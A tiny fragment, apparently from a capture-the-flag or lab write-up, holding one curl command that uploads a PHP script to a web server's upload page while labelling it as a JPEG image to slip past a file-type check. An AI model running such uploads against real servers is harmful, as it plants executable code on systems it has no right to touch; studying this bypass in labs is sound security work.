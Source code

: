 curl -F "Upload=send" -F "uploaded=@script.php;type=image/jpeg" http://51.250.107.11/index.php\?page\=upload